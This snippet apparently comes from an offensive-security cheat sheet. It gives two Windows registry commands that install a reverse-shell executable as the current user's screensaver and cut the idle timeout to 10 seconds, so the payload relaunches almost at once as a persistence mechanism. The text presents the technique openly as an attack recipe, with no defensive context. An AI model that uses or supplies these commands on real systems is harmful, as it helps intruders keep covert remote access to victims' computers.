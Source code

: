 ### Add rev shell as screensaver
```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "c:\<exeFile>" /f
```

### Set idle delay to 10 seconds
```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "10" /f
```

